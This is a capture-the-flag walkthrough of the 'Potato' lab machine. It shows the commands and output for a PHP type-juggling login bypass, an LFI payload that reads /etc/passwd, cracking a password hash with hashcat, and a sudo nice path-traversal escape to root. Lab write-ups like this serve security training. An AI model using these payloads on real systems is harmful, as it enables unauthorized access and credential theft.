



# Potato

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Play
Difficulty: Fundamental
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 15
Number of Flags: 2
Lab Description:
Employ enumeration and web enumeration techniques to identify vulnerabilities. Engage in PHP type juggling for 
authentication bypass and implement methods for exploiting LFI. Additionally, utilize password cracking and 
harness privilege escalation strategies along with the abuse of sudo permissions to enhance your access. This 
lab is designed to capitalize on your skills in vulnerability exploitation.
```

Machine link: [https://portal.offsec.com/machine/potato-445/overview/details](https://portal.offsec.com/machine/potato-445/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ export TARGET_IP=192.168.182.101

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-08 10:00 +0100
Nmap scan report for 192.168.182.101
Host is up (0.042s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 34:32:85:eb:8e:c2:e3:01:92:80:ec:65:bb:d3:da:c3 (RSA)
|   256 23:1f:22:44:60:d1:d7:8b:d8:e7:d9:92:f2:53:47:8b (ECDSA)
|_  256 ba:36:34:96:2e:18:d7:a7:5f:27:b4:aa:4e:7f:c1:47 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.83 seconds
```

We have three TCP-services running:

- An [OpenSSH](https://en.wikipedia.org/wiki/OpenSSH) server version 8.2p1 on port 22
- An [Apache httpd](https://en.wikipedia.org/wiki/Apache_HTTP_Server) server 2.4.41 on port 80
- A [ProFTPD](https://en.wikipedia.org/wiki/ProFTPD) server on port 2112

The FTP-server allows anonymous access.

We also do an UDP-scan of the top 100 ports.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-08 10:10 +0100
Nmap scan report for 192.168.182.101
Host is up (0.042s latency).
All 100 scanned ports on 192.168.182.101 are in ignored states.
Not shown: 56 closed udp ports (port-unreach), 44 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 304.67 seconds
```

But no UDP-services were found.

### Download files from FTP server

Next, we download all files from the FTP server for later analysis.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ ftp anonymous@$TARGET_IP 2112                   
Connected to 192.168.182.101.
220 ProFTPD Server (Debian) [::ffff:192.168.182.101]
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.203 !
230-
230-The local time is: Sun Nov 08 09:18:48 2026
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||56158|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Aug  2  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Aug  2  2020 ..
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> mget *
mget welcome.msg [anpqy?]? a
Prompting off for duration of mget.
229 Entering Extended Passive Mode (|||53247|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54       49.37 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.95 KiB/s)
229 Entering Extended Passive Mode (|||22248|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901        0.99 MiB/s 
226 Transfer complete
901 bytes received in 00:00 (21.76 KiB/s)
ftp> quit
221 Goodbye.
```

The backup PHP code gives us possible credentials (`admin:potato`):

```html
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

And this is the contents of `welcome.msg`:

```text
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T
```

### Check the web site

Browsing manually to `http://192.168.182.101/` we see a web site under construction.



The HTML source code contains nothing interesting:

```html
<html>
<head><title>Potato company</title></head>
<body>
  <h1>Potato company</h1>
  <p>At the moment, there is nothing. This site is under construction. To make you wait, here is a photo of a potato:</p>
  
</body>
<html>
```

We can also do some basic HTTP-enumeration with `nmap`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ nmap -p 80 --script "http-* and discovery" $TARGET_IP 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-08 10:24 +0100
Pre-scan script results:
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
Nmap scan report for 192.168.182.101
Host is up (0.041s latency).

Bug in http-security-headers: no string output.
PORT   STATE SERVICE
80/tcp open  http
|_http-date: Sun, 08 Nov 2026 09:24:02 GMT; -1s from local time.
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
|_http-mobileversion-checker: No mobile version detected.
| http-vhosts: 
|_128 names had status 200
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-errors: Couldn't find any error pages.
|_http-feed: Couldn't find any feeds.
| http-headers: 
|   Date: Sun, 08 Nov 2026 09:24:09 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-xssed: No previously reported XSS vuln.
|_http-chrono: Request times for /; avg: 91.43ms; min: 86.52ms; max: 94.92ms
|_http-referer-checker: Couldn't find any cross-domain scripts.
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; jpg: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1; jpg: 1
| http-traceroute: 
|_  Possible reverse proxy detected.
|_http-title: Potato company
|_http-comments-displayer: Couldn't find any comments.
| http-enum: 
|   /admin/: Possible admin folder
|_  /admin/index.php: Possible admin folder

Nmap done: 1 IP address (1 host up) scanned in 224.97 seconds
```

The most interesting finding here is the `/admin` folder.

Finally for the web enumeration we search for additional files and directories with `gobuster`.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.182.101
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.hta.php             (Status: 403) [Size: 280]
/.hta.txt             (Status: 403) [Size: 280]
/.hta.html            (Status: 403) [Size: 280]
/.htaccess.html       (Status: 403) [Size: 280]
/.htaccess.txt        (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess.php        (Status: 403) [Size: 280]
/.htpasswd.html       (Status: 403) [Size: 280]
/.htpasswd.php        (Status: 403) [Size: 280]
/.htpasswd.txt        (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/admin                (Status: 200) [Size: 466]
/.html                (Status: 403) [Size: 280]
/index.php            (Status: 200) [Size: 245]
/index.php            (Status: 200) [Size: 245]
/server-status        (Status: 403) [Size: 280]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
===============================================================
```

The `/admin` page (`http://192.168.182.101/admin/`) contains a login portal:



The HTML source looks very much like the earlier found PHP file:

```html
<html>
<head></head>
<body>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

Trying to login with `admin:potato` fails!

### PHP Type Juggling

Instead we revisit the PHP code and examine the comparisons on this line:

```php
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
```

We note that [loose comparisons](https://www.php.net/manual/en/types.comparisons.php#types.comparisions-loose) are used which is a vulnerability.

This means we can use [Type Juggling](https://www.php.net/manual/en/language.types.type-juggling.php) to fool the comparisons.

We access the web site with `curl` using the `-c` parameter to save the authentication cookie.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ curl -X POST -d "username=admin&password[]=1" -c cookie_jar.txt "http://$TARGET_IP/admin/index.php?login=1" 
<html>
<head></head>
<body>

Welcome! </br> Go to the <a href="dashboard.php">dashboard</a>                                                                                                                                                                                         
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ cat cookie_jar.txt                                                                                         
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

192.168.182.101 FALSE   /admin  FALSE   1825668477      pass    serdesfsefhijosefjtfgyuhjiosefdfthgyjh

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ curl -b cookie_jar.txt "http://$TARGET_IP/admin/dashboard.php" 
<html>
<head><title>Admin area</title></head>
<body>
<a href="dashboard.php"> Home </a>&emsp;
<a href="dashboard.php?page=users">Users </a>&emsp;
<a href="dashboard.php?page=date"> Date </a>&emsp;
<a href="dashboard.php?page=log"> Logs </a>&emsp;
<a href="dashboard.php?page=ping"> Ping </a>

</br> <h1>Admin area</h1></br>Access forbidden if you don't have permission to access  
```

It looks like the cookie is a possible password.

And indeed, if we try to login with `admin:serdesfsefhijosefjtfgyuhjiosefdfthgyjh` on `http://192.168.182.101/admin/index.php` we are successful.

After click on the `dashboard` link we see the same dashboard again:



### Identifying LFI

With [Burp suite](https://portswigger.net/burp) running in the background capturing the requests, we see that the `Logs` section produces these kinds of requests:

```text
POST /admin/dashboard.php?page=log HTTP/1.1
Host: 192.168.182.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://192.168.182.101
Connection: keep-alive
Referer: http://192.168.182.101/admin/dashboard.php?page=log
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Upgrade-Insecure-Requests: 1
Priority: u=0, i

file=log_02.txt
```

We send this request to `Repeater` and start changing the `file` parameter looking for a Local File Inclusion (LFI) vulnerability.

A classic file to look for is `/etc/passwd` and with `file=../../../../../etc/passwd` we get the contents of the file:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ curl -X POST -b cookie_jar.txt -d 'file=../../../../../etc/passwd' "http://$TARGET_IP/admin/dashboard.php?page=log"
<html>
<head><title>Admin area</title></head>
<body>
<a href="dashboard.php"> Home </a>&emsp;
<a href="dashboard.php?page=users">Users </a>&emsp;
<a href="dashboard.php?page=date"> Date </a>&emsp;
<a href="dashboard.php?page=log"> Logs </a>&emsp;
<a href="dashboard.php?page=ping"> Ping </a>

<h2>show log:</h2>

<form action="dashboard.php?page=log" method="post">

<div>
  <input type="radio" name="file" value="log_03.txt">
  <label for="log_03.txt">log_03.txt</label>
</div><div>
  <input type="radio" name="file" value="log_02.txt">
  <label for="log_02.txt">log_02.txt</label>
</div><div>
  <input type="radio" name="file" value="log_01.txt">
  <label for="log_01.txt">log_01.txt</label>
</div></br></br>
    <div class="button">
        <button type="submit">Get the log</button>
    </div>
</form>

Contenu du fichier ../../../../../etc/passwd :  </br><PRE>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
</PRE>  
```

Note the `webadmin` user which entry contains a hash! This isn't the standard at all!?

```text
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```

### Crack the hash

We will try to crack the hash with `hashcat` and the Rockyou wordlist.

First, we identify the type of hash.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ hashcat --identify '$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/'
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)                  | Operating System
```

And then we start cracking:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ hashcat -m 500 '$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/' /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #01: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2945/5890 MB (1024 MB allocatable), 8MCU

/home/kali/.local/share/hashcat/hashcat.dictstat2: Outdated header version, ignoring content
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (4125 MB free)

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 5 secs

$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:dragon                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
Time.Started.....: Sun Nov  8 11:55:51 2026 (1 sec)
Time.Estimated...: Sun Nov  8 11:55:52 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:      389 H/s (14.21ms) @ Accel:46 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 368/14344385 (0.00%)
Rejected.........: 0/368 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> benjamin
Hardware.Mon.#01.: Util: 13%

Started: Sun Nov  8 11:54:57 2026
Stopped: Sun Nov  8 11:55:53 2026
```

And the password is `dragon`.

### Login with SSH as webadmin

Next, we connect with SSH and the credentials `webadmin:dragon`:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Fundamental/Potato]
└─$ ssh webadmin@$TARGET_IP                                                              
The authenticity of host '192.168.182.101 (192.168.182.101)' can't be established.
ED25519 key fingerprint is SHA256:mSussompDWyGVx2Ylhu5UtUI8VVrHhA3vWIB0Ot9pm0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.182.101' (ED25519) to the list of known hosts.
webadmin@192.168.182.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 08 Nov 2026 10:57:43 AM UTC

  System load:  0.0               Processes:             118
  Usage of /:   8.2% of 49.09GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for ens3: 192.168.182.101
  Swap usage:   0%

 * Kubernetes 1.19 is out! Get it in one command with:

     sudo snap install microk8s --channel=1.19 --classic

   https://microk8s.io/ has docs and details.

375 updates can be installed immediately.
266 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ 
```

Success, we are in!

### Get the user flag

Now we can start looking for the user flag.

```bash
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ ls -la
total 32
drwxr-xr-x 3 webadmin webadmin 4096 Nov  8 10:08 .
drwxr-xr-x 5 root     root     4096 Nov  8 08:59 ..
-rw------- 1 webadmin webadmin    0 Sep 28  2020 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug  2  2020 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug  2  2020 .bashrc
drwx------ 2 webadmin webadmin 4096 Nov  8 10:08 .cache
-rw-r--r-- 1 webadmin webadmin   33 Nov  8 08:59 local.txt
-rw-r--r-- 1 webadmin webadmin  807 Aug  2  2020 .profile
-rw------- 1 webadmin root       32 Sep 28  2020 user.txt
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ cat local.txt 
1<REDACTED>7
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ 
```

Nice, so far so good.

### Enumeration for privesc

We now enumerate the system for privilege escalation opportunities.

First we check what we can do with `sudo`:

```bash
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on lab-pg-10-ubuntu20-potato-240-132:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on lab-pg-10-ubuntu20-potato-240-132:
    (ALL : ALL) /bin/nice /notes/*
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ ls -la /notes/
total 16
drwxr-xr-x  2 root root 4096 Aug  2  2020 .
drwxr-xr-x 21 root root 4096 Nov  8 08:59 ..
-rwx------  1 root root   11 Aug  2  2020 clear.sh
-rwx------  1 root root    8 Aug  2  2020 id.sh
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ 
```

We can run [nice](https://man7.org/linux/man-pages/man1/nice.1.html) on files in the `/notes/` directory.

### Get a root shell

Consulting [GTFOBins](https://gtfobins.org/gtfobins/nice/) for inspiration, we can get a root shell with path traversal:

```bash
webadmin@lab-pg-10-ubuntu20-potato-240-132:~$ sudo /bin/nice /notes/../bin/bash
root@lab-pg-10-ubuntu20-potato-240-132:/home/webadmin# id
uid=0(root) gid=0(root) groups=0(root)
root@lab-pg-10-ubuntu20-potato-240-132:/home/webadmin# 
```

### Get the root flag

And finally we can get the root flag.

```bash
root@lab-pg-10-ubuntu20-potato-240-132:/home/webadmin# cd /root
root@lab-pg-10-ubuntu20-potato-240-132:~# ls -la
total 44
drwx------  4 root root  4096 Nov  8 08:59 .
drwxr-xr-x 21 root root  4096 Nov  8 08:59 ..
-rw-------  1 root root     0 Sep 28  2020 .bash_history
-rw-r--r--  1 root root  3106 Dec  5  2019 .bashrc
-rw-r--r--  1 root root   161 Dec  5  2019 .profile
-rw-------  1 root root    33 Nov  8 08:59 proof.txt
-rw-------  1 root root    32 Sep 28  2020 root.txt
-rwxr-xr-x  1 root root 12227 Nov  8 08:59 set-net.sh
drwxr-xr-x  3 root root  4096 Aug  2  2020 snap
drwx------  2 root root  4096 Aug  2  2020 .ssh
root@lab-pg-10-ubuntu20-potato-240-132:~# cat root.txt
Your flag is in another file...
root@lab-pg-10-ubuntu20-potato-240-132:~# cat proof.txt 
7<REDACTED>5
root@lab-pg-10-ubuntu20-potato-240-132:~# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [File Transfer Protocol - Wikipedia](https://en.wikipedia.org/wiki/File_Transfer_Protocol)
- [ftp - Linux manual page](https://linux.die.net/man/1/ftp)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [Hashcat - Homepage](https://hashcat.net/hashcat/)
- [Hashcat - Kali Tools](https://www.kali.org/tools/hashcat/)
- [Hashcat - Wiki](https://hashcat.net/wiki/)
- [HTML - Wikipedia](https://en.wikipedia.org/wiki/HTML)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nice - GTFOBins](https://gtfobins.org/gtfobins/nice/)
- [nice - Linux manual page](https://man7.org/linux/man-pages/man1/nice.1.html)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [ProFTPD - Wikipedia](https://en.wikipedia.org/wiki/ProFTPD)
- [rockyou.txt wordlist - GitHub](https://github.com/zacheller/rockyou)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [Type comparison tables - PHP Manual](https://www.php.net/manual/en/types.comparisons.php)
- [Type Juggling - PHP Manual](https://www.php.net/manual/en/language.types.type-juggling.php)
